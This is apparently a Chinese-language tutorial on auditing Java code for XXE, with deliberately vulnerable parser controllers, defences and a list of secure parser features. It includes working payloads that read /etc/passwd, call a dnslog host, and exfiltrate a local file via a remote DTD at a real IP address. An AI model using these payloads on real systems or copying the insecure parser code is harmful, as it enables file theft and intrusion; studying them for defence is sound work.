

# 前言

XXE漏洞是xml外部实体注入，我们知道xml中会用`<name>1</name>`这种形式定义某个元素的值，但是这个值可以是一个变量，我们可以在xml中定义一个DTD实体，通过`&实体名;`这种方式引用，为了方便，可以支持引入外部实体内容，这就导致会用到一些伪协议去获取文件内容，就可以造成相应的漏洞，而XXE正是由于这个外部实体引入造成的。

对于XXE这个漏洞，虽然是由于引起外部实体造成的，但是在Java和PHP中用到解析xml的代码却截然不同，这次来了解一下XXE在Java中的代码表现

对于Java代码审计的环境可以参考https://github.com/JoyChou93/java-sec-code，里面基本上列举了所有造成XXE漏洞的代码

# Java XXE

在Java的XXE中，可以用到的协议其实和SSRF差不多，但是多了一个gopher和mailto协议


> 1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
> update 7 和 Oracle JDK 1.6 update 35
> 2.libxml 是 PHP 的 xml 支持

在Java中审计XXE我们主要来关注的是一些XML解析相关的类

```
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.DocumentBuilderFactory
javax.xml.stream.XMLStreamReader
javax.xml.stream.XMLInputFactory
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
org.jdom.output.XMLOutputter
oracle.xml.parser.v2.XMLParser
javax.xml.parsers.SAXParser
org.dom4j.io.SAXReader 
org.dom4j.DocumentHelper
org.xml.sax.XMLReader
javax.xml.transform.sax.SAXSource 
javax.xml.transform.TransformerFactory 
javax.xml.transform.sax.SAXTransformerFactory 
javax.xml.validation.SchemaFactory
javax.xml.validation.Validator
javax.xml.bind.Unmarshaller
javax.xml.xpath.XPathExpression
java.beans.XMLDecoder
```

重点审计XML解析器是否设置了相关的安全属性，禁用DTDs或者禁止使用外部实体。还有是否使用了不安全的漏洞组件

除此之外，关注`StreamSource`、`XMLConstants`、`StringReader`等方法的调用，在项目中搜索. xsd文件。

先参考https://github.com/JoyChou93/java-sec-code写一个Webutils类，需要导入的依赖可以去这个项目的pom查看

```java
package com.example.javaxxedemo.Utils;

import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServletRequest;
import java.io.File;
import java.io.IOException;
import java.io.InputStream;

import com.google.common.base.Preconditions;
import org.springframework.web.util.HtmlUtils;

public class WebUtils {

    // Get request body.
    public static String getRequestBody(HttpServletRequest request) throws IOException {
        InputStream in = request.getInputStream();
        return convertStreamToString(in);
    }

    // https://stackoverflow.com/questions/309424/how-do-i-read-convert-an-inputstream-into-a-string-in-java
    public static String convertStreamToString(java.io.InputStream is) {
        java.util.Scanner s = new java.util.Scanner(is).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";
    }

    public static String getCookieValueByName(HttpServletRequest request, String cookieName) {
        Cookie cookie = org.springframework.web.util.WebUtils.getCookie(request, cookieName);
        return cookie == null ? null : cookie.getValue();
    }

    public static String json2Jsonp(String callback, String jsonStr) {
        return HtmlUtils.htmlEscape(callback) + "(" + jsonStr + ")";
    }

    public static String getFileExtension(String fullName) {
        Preconditions.checkNotNull(fullName);
        String fileName = (new File(fullName)).getName();
        int dotIndex = fileName.lastIndexOf('.');
        return dotIndex == -1 ? "" : fileName.substring(dotIndex + 1);
    }

    public static String getNameWithoutExtension(String file) {
        Preconditions.checkNotNull(file);
        String fileName = (new File(file)).getName();
        int dotIndex = fileName.lastIndexOf('.');
        return dotIndex == -1 ? fileName : fileName.substring(0, dotIndex);
    }
}
```

## DocumentBuilder

DocumentBuilder是JDK自带的类，产生的XXE是有回显的，其实这里的回显就是处理了其返回的Document，打印在页面上

```
package com.example.javaxxedemo.Controller;

import com.example.javaxxedemo.Utils.WebUtils;
import org.slf4j.LoggerFactory;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.slf4j.Logger;
import org.w3c.dom.Document;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;
import org.xml.sax.InputSource;

import javax.servlet.http.HttpServletRequest;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import java.io.StringReader;

@Controller
public class XXEController {

    private static final Logger logger = LoggerFactory.getLogger(XXEController.class);
    @RequestMapping("/XXE")
    @ResponseBody
    public String XXE(HttpServletRequest request) throws Exception{
        String body = WebUtils.getRequestBody(request);
        logger.info(body);
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder documentBuilder = dbf.newDocumentBuilder();
        StringReader stringReader = new StringReader(body);
        InputSource inputSource = new InputSource(stringReader);
        Document document = documentBuilder.parse(inputSource); // parse xml

        // 遍历xml节点name和value
        StringBuilder stringBuilder = new StringBuilder();
        NodeList nodeList = document.getChildNodes();
        for (int i = 0; i < nodeList.getLength(); i++){
            Node node = nodeList.item(i);
            NodeList child = node.getChildNodes();
            for (int j = 0; j<child.getLength(); j++){
                Node node1 = child.item(j);
                stringBuilder.append(String.format("%s: %s\n", node1.getNodeName(), node1.getTextContent()));
            }
        }
        stringReader.close();
        return stringBuilder.toString();
    }
}
```

一个实体如下

```
<!DOCTYPE  文件名 [
<!ENTITY  实体名 "实体内容">
]>
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
<!ENTITY name SYSTEM "file:///etc/passwd" > 
]>
<name>&name;</name>
```

创建一个DTD实体name，在XML中以 `&实体名;` 引用，当解析xml的时候，遍历解析道`<name>`节点，解析DTD中的file协议，最后将得到的内容，返回到页面上


## SAXReader

这是一个第三方库，需要导入第三方依赖

```xml
<dependency>
    <groupId>org.dom4j</groupId>
    <artifactId>dom4j</artifactId>
    <version>2.1.0</version>
</dependency>
```

这个的XXE漏洞是没有回显的，可以直接用SAXReader的read方法对InputSource进行解析，而不需要像DocumentBuilder遍历节点解析

```
@RequestMapping(value = "/SAXReader/vuln", method = RequestMethod.POST)
@ResponseBody
public String SAXReaderVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        SAXReader reader = new SAXReader();
        // org.dom4j.Document document
        reader.read(new InputSource(new StringReader(body))); // cause xxe

    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }

    return "SAXReader xxe vuln code";
}
```



可以借助dns平台

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
<!ENTITY name SYSTEM "http://ep8p8r.dnslog.cn" > 
]>
<name>&name;</name>
```


## SAXBuilder

这也是一个第三方库

```xml
<dependency>
    <groupId>org.jdom</groupId>
    <artifactId>jdom2</artifactId>
    <version>2.0.6</version>
</dependency>
```

仍然是没有回显的，漏洞代码如下

```java
@RequestMapping(value = "/SAXBuilder/vuln", method = RequestMethod.POST)
@ResponseBody
public String SAXBuilderVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        SAXBuilder builder = new SAXBuilder();
        // org.jdom2.Document document
        builder.build(new InputSource(new StringReader(body)));  // cause xxe
        return "SAXBuilder xxe vuln code";
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
}
```

和SAXReader的唯一区别就是

```
reader.read(new InputSource(new StringReader(body))); // cause xxe
builder.build(new InputSource(new StringReader(body))); // cause xxe
```


## SAXParserFactory

这个类也是JDK的自带类，但是他的内容不能回显。

漏洞代码如下：

```java
@RequestMapping(value = "/SAXParser/vuln", method = RequestMethod.POST)
@ResponseBody
public String SAXParserVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        SAXParserFactory spf = SAXParserFactory.newInstance();
        SAXParser parser = spf.newSAXParser();
        parser.parse(new InputSource(new StringReader(body)), new DefaultHandler());  // parse xml

        return "SAXParser xxe vuln code";
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
}
```


## XMLReaderFactory

漏洞代码如下

```java
@RequestMapping("/xmlReader/vuln")
@ResponseBody
public String xmlReaderVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);
        XMLReader xmlReader = XMLReaderFactory.createXMLReader();
        xmlReader.parse(new InputSource(new StringReader(body)));  // parse xml
        return "xmlReader xxe vuln code";
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
}
```


## XMLReader

其实这个和XMLReaderFactory的区别就在于获取XMLReader的方式不同，其实最后解析都是通过XMLReader是实现对XML的解析

```java
@RequestMapping("/XMLReader/vuln")
@ResponseBody
public String XMLReaderVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        SAXParserFactory spf = SAXParserFactory.newInstance();
        SAXParser saxParser = spf.newSAXParser();
        XMLReader xmlReader = saxParser.getXMLReader();
        xmlReader.parse(new InputSource(new StringReader(body)));

    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }

    return "XMLReader xxe vuln code";
}
```


## Digester

这也是个外部库

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-digester3</artifactId>
    <version>3.2</version>
</dependency>
```

漏洞代码如下：

```java
@RequestMapping(value = "/Digester/vuln", method = RequestMethod.POST)
@ResponseBody
public String DigesterVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        Digester digester = new Digester();
        digester.parse(new StringReader(body));  // parse xml
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
    return "Digester xxe vuln code";
}
```


## Xinclude

Xinclude可以理解为xml中的include，就像PHP的include一样，用来引入文件

有的 web 应用程序会把用户输入的数据嵌入到后端的 XMl 里，然后再进行解析。这就意味着攻击者无法直接的控制整个 xml 文档，也无法修改 dtd 元素

但是我们可以改用 xinclude 进行攻击，Xinclude 是一个 XML 的特性。其允许从子文档中构建 XML 文档，那么攻击的开始我们需要一个 标记 xi:include

```dtd
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

漏洞代码：

```java
@RequestMapping(value = "/DocumentBuilder/xinclude/vuln", method = RequestMethod.POST)
@ResponseBody
public String DocumentBuilderXincludeVuln(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        logger.info(body);

        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setXIncludeAware(true);   // 支持XInclude
        dbf.setNamespaceAware(true);  // 支持XInclude
        DocumentBuilder db = dbf.newDocumentBuilder();
        StringReader sr = new StringReader(body);
        InputSource is = new InputSource(sr);
        Document document = db.parse(is);  // parse xml

        NodeList rootNodeList = document.getChildNodes();
        StringBuilder stringBuilder = new StringBuilder();
        for (int i = 0; i < rootNodeList.getLength(); i++) {
            Node rootNode = rootNodeList.item(i);
            NodeList xxe = rootNode.getChildNodes();
            for (int j = 0; j < xxe.getLength(); j++) {
                Node xxeNode = xxe.item(j);
                // 测试不能blind xxe，所以强行加了一个回显
                logger.info("xxeNode: " + xxeNode.getNodeValue());	// 打印日志上
                stringBuilder.append(xxeNode.getNodeValue());	// 用于最后输出到页面上
            }

        }

        sr.close();
        return stringBuilder.toString();
    } catch (Exception e) {
        logger.error(e.toString());
        return "xxe except";
    }
}
```

注意到了通过来启用了XInclude

```
dbf.setXIncludeAware(true);   // 支持XInclude
dbf.setNamespaceAware(true);  // 支持XInclude
```


当然不止DocumentBuilderFactory可以设置Xinclude，其他解析库也可以

# 无回显攻击

这种方式需要用到参数实体，要在服务器上放一个恶意的DTD文档

```
<!ENTITY % file SYSTEM "file:///Users/DawnT0wn/aaa.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://47.93.248.221:9999?p=%file;'>">
```

因为实体中不能含有`%`，使用用html实体编码`&#37;`替代

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://47.93.248.221:2333/test.dtd">
%remote;%int;%send;
]>
```


但是这种方式只能读正常的文件，却没有办法读etc/passwd，因为Java中不能像PHP那样用到php://filter来实现base64编码传输，当有特殊字符的时候就会造成截断

> 1、所有的【\r】 都会被替换为【\n】
> 2、如果不包含特殊字符，低版本 ftp 可以读多行文件，高版本 ftp 只可以读单行文件，全版本 http 都只可以读单行文件，所以这里通用的方法就是FTP来进行读取
> 3、版本限制是 <7u141 和 <8u162 才可以读取整个文件
> 4、如果含有特殊字符 【%】 【&】 会完全出错
> 5、如果含有特殊字符 【’】 【”】 可以稍微绕过
> 6、如果含有特殊字符 【?】，对 http 无影响，对 ftp 会造成截断
> 7、如果含有特殊字符【/】， 对 http 无影响，对 ftp 需要额外增加解析的 case
> 8、如果含有特殊字符【#】，会造成截断

# 防御

通常是通过禁止使用外部实体的方式进行修复的

```
PHP：
libxml_disable_entity_loader(true);

Python：
第三方模块lxml按照修改设置来改就可以
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

def xxe():
    tree = etree.parse('xml.xml', etree.XMLParser(resolve_entities=False))
    # tree = lxml.objectify.parse('xml.xml', etree.XMLParser(resolve_entities=False))
    return etree.tostring(tree.getroot())
尝试改用defusedxml 是一个纯 Python 软件包，它修改了所有标准库 XML 解析器的子类，可以防止任何潜在的恶意操作。 对于解析不受信任的XML数据的任何服务器代码，建议使用此程序包。
```

对于Java的防御，其实也是通过禁用外部实体

在这篇代码中https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java

里面提到了很多sec


相对于漏洞代码来看，其实就是多设置了几个属性，而且所有的都是通过setFeature方法来设置的

各种Features：

```
是否允许使用DTDS解析
    http://apache.org/xml/features/disallow-doctype-decl
是否允许使用通用实体
    http://xml.org/sax/features/external-general-entities
是否允许使用参数实体
    http://xml.org/sax/features/external-parameter-entities
是否允许加载外部DTD实体
    http://apache.org/xml/features/nonvalidating/load-external-dtd
是否启用安全性处理
    http://javax.xml.XMLConstants/feature/secure-processing
是否允许使用外部DTD实体
    http://javax.xml.XMLConstants/property/accessExternalDTD
是否允许使用外部Schema
    http://javax.xml.XMLConstants/property/accessExternalSchema
是否允许使用外部Stylesheet
    http://javax.xml.XMLConstants/property/accessExternalStylesheet
```


参考链接：

https://www.cnblogs.com/CoLo/p/15236414.html

https://xz.aliyun.com/t/3357#toc-8

https://www.cnblogs.com/zpchcbd/p/12900903.html

https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java#L237

https://su18.org/post/code-audit/#centerfont-colorblue-3-xxefontcenter